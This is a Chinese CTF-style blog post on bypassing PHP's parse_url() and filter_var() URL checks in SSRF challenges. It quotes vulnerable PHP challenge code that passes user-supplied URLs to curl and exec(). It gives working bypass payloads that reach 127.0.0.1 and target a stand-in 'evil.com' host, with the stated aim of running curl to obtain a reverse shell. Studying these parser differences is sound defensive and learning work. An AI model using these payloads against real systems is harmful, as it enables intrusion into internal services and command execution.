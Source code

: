 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SSRF中两个函数的绕过               # 标题 
subtitle:    #副标题
date:       2020-03-01              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SSRF

---
```

# 前言
在SSRF中我们经常遇到这两个函数filter_var()和parse_url(),今天来学习一下这两个函数相关的绕过方法.
# parse_url()
## 函数介绍
parse_url用来解析 URL，返回其组成部分(返回一个关联数组)
语法如下:
``` php
 parse_url (url,commpent) : mixed
```
其中,url为需要解析的url(必需),commpent为指定 PHP_URL_SCHEME、 PHP_URL_HOST、 PHP_URL_PORT、 PHP_URL_USER、 PHP_URL_PASS、 PHP_URL_PATH、 PHP_URL_QUERY 或 PHP_URL_FRAGMENT 的其中一个来获取 URL 中指定的部分的 string.(非必需)
## 绕过
我们需要知道libcurl和parse_url的解析差异.
```
完整url: scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]
这里仅讨论url中不含'?'的情况
php parse_url：
host: 匹配最后一个@后面符合格式的host
libcurl：
host：匹配第一个@后面符合格式的host
```
比如，
```
http://u:p@baidu.com@bilibili.com/
```
parse_url和libcurl的解析分别如下:
```
    parse_url解析结果：
    schema: http 
    user: u
    pass: p@baidu.com
    host: bilibili.com
    
libcurl解析结果：
    schema: http
    host: baidu.com
    user: u
    pass: p
    port: 80
    后面的@bilibili.com/会被忽略掉
```
## 题目分析
题目中部分代码如下:
``` php
<?php
$url = @$_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
if (parse_url($url,PHP_URL_SCHEME) !== "http"){
    die('step 10 fail');
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
$output = curl_exec($ch);
curl_close($ch);
if($output === FALSE){
    die('step 11 fail');
}
else{
    echo $output;
}
```
结合上面的知识，我们可以构造出如下payload:
```
http://u:p@127.0.0.1:80@www.baidu.com/flag.php
```
# filter_var()
## 函数介绍
filter_var() 函数通过指定的过滤器过滤一个变量。如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。  
语法如下:
``` php
filter_var(variable, filter, options) 
```
其中,variable是判断的字符串(必需),filter是相应的过滤器ID,通常在SSRF中对应的是FILTER_VALIDATE_URL,即判断是不是URL。
## 绕过
在CTF中我们经常见到这样的代码
``` php
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      if(preg_match('/google\.com$/', $r['host'])) 
      {
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
```
可以想见，题目的解法就是想办法执行curl语句进而利用curl反弹shell,所以关键就在于绕过preg_match,filter_var.
我们需要知道以下知识:
> 许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。
字符";", "/", "?", ":", "@", "=" 和"&"是被保留的。
除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如"；"和"="用来分割参数和参数值。逗号也有着类似的作用。
例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。
例如，如果用于hostname上，URL"http://evil.com;baidu.com"会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com  

知晓了上面的原理后,我们可以构造出这样的结果:
``` 
http://evil.com;google.com
```
但是可以看出,这样并不能通过filter_var的检测.
![](blog_img/ssrf2_1.png)
但当我们修改为:
```
0://evil.com;google.com
```
可以看到，成功进入了exec()语句.
![](blog_img/ssrf2_1.png)
但是这样并不能执行curl语句,我们可以通过制定特定端口即可解决这个问题。于是有最终payload:
```
0://evil.com:80;google.com:80
```
需要注意的是:
```
使用逗号代替分号会出现同样的情况
前面的0可以用其他非协议字段代替
```
另外，当像本题一样当使用了exec()函数而且脚本又使用[host]来创建一个curl HTTP请求时，我们还可以采用以下的payload:
```
0://evil$google.com
```

# 参考文章
[v0w的博客](https://v0w.top/2018/11/23/SSRF-notes/#2-parse-url%E4%B8%8Elibcurl%E5%AF%B9curl%E7%9A%84%E8%A7%A3%E6%9E%90%E5%B7%AE%E5%BC%82)  
[secjuice上的文章](https://medium.com/secjuice/php-ssrf-techniques-9d422cb28d51)  


